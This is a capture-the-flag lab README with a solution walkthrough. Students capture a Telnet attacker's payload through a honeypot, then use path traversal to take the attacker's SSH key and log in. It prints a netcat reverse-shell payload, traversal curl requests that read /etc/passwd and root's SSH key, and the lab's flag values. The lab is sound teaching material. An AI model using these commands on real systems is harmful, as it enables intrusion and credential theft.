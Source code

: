 # Anyone Home?

An attacker-controlled container keeps probing hackerlab (telnet ports) and tries to login. Once it gets a shell, and it verifies its authenticity (by running 3 standard commands), it tries to download a malicious payload from a unique path in the attacker's HTTP server. 

Students must spot the activity, trick the attacker with a honeypot, analyse the dropped payload (contains 1st flag), and finally attack back and pwn the attacker's server (to get a 2nd flag). The attacker's HTTP endpoint that serves the malicious payload in the 1st phase is vulnerable to LFI which students can exploit to read attacker's SSH private key and login. That means students must first solve the 1st task in order to discover the vulnerable HTTP endpoint required for the 2nd task.

### Tasks

1. **Is Anyone Home?** – Capture the malicious payload and extract the embedded flag.
2. **Bonus: Uno Reverse Card** – Exploit the attacker’s sloppy OPSEC, gain access to their box, and recover the bonus flag.

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Start by monitoring inbound traffic on the student machine to confirm something is repeatedly reaching out over Telnet:
   ```bash
   root@hackerlab:~# tcpdump -n -vv -A port 23
   ```
   You should quickly notice connections and commands coming from `172.20.0.46`.

2. Instead of letting the attacker run commands on the real system, implement a honeypot and analyze attacker's actions. See a reference implementation in [auto-solve/telnet-honeypot.py](./auto-solve/telnet-honeypot.py)
   
3. Once you discover that attacker wants to download a payload from `http://172.20.0.46:8080//0ZbPWi0apUuFbpiwN2fp/payload.sh`, fetch the payload directly and inspect it:
   ```bash
   root@hackerlab:~# wget -O payload.sh http://172.20.0.46:8080//0ZbPWi0apUuFbpiwN2fp/payload.sh
   root@hackerlab:~# cat payload.sh
   #!/bin/sh
   # BSY{9YHgu60tUn5RjoYRTyViAMQWrci3y7w9x49w4qXXA3IHvWCb}
   nc -e /bin/sh 172.20.0.46 1234
   ```
   The comment line contains the first flag. Submit it through the dashboard.

4. To complete the bonus task, browse the attacker's staging directory to learn what else they exposed:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp
   Files: 
   /var/www/payloads/payload.sh
   ```
   You see file paths, so maybe you can read files in the attacker's server. Voilá:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp/../../../../../../etc/passwd --path-as-is
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   ...
   ```
   If you port scan the attacker's server, you can see these ports.
   ```bash
   root@hackerlab:~# nmap 172.20.0.46
   Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-20 17:20 UTC
   Nmap scan report for scl-challenge-anyone-home.playground-net (172.20.0.46)
   Host is up (0.0000070s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT     STATE SERVICE
   22/tcp   open  ssh
   8080/tcp open  http-proxy
   MAC Address: 02:42:AC:14:00:2E (Unknown)
   
   Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
   ```
   Since you see there is SSH server running and you can read files in the target server, after some trial and error you can try to guess standard name of the root's SSH key:
   ```bash
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp//../../../../../../root/.ssh/authorized_keys --path-as-is
   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8DlQZk8AdLGV374MwEl45kdgRG8xFaIjOKeR7IuVNKKNE9iMRaALVKb0Q4lndsHn1HAREG6MlS3c1VZ1XfczA= hello@friend
   root@hackerlab:~# curl http://172.20.0.46:8080/0ZbPWi0apUuFbpiwN2fp//../../../../../../root/.ssh/key --path-as-is > attacker.key
   root@hackerlab:~# chmod 600 attacker.key
   ```

5. Use the key to authenticate to the attacker’s host and read the flag from root’s home:
   ```bash
   root@hackerlab:~# ssh -i attacker.key -o StrictHostKeyChecking=no root@172.20.0.46
   root@ea9e0637121f:~# ls -lah
   total 28K
   drwx------ 1 root root 4.0K Oct 20 17:13 .
   drwxr-xr-x 1 root root 4.0K Oct 20 17:19 ..
   -rw-r--r-- 1 root root  607 Aug 24 16:20 .bashrc
   -rw-r--r-- 1 root root   54 Oct 20 17:13 .flag.txt
   -rw-r--r-- 1 root root  132 Aug 24 16:20 .profile
   -rw------- 1 root root    0 Oct  9 22:38 .python_history
   drwx------ 1 root root 4.0K Oct 20 17:13 .ssh
   -rw-r--r-- 1 root root  169 Oct  9 22:33 .wget-hsts
   root@ea9e0637121f:~# cat .flag.txt
   BSY{cQZ3TSoUVgbiO3EeyZiI5IidU6lcknWhjFRdeJppxV8yRs9M}
   ```
   Submit the second flag to complete the bonus task.

</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
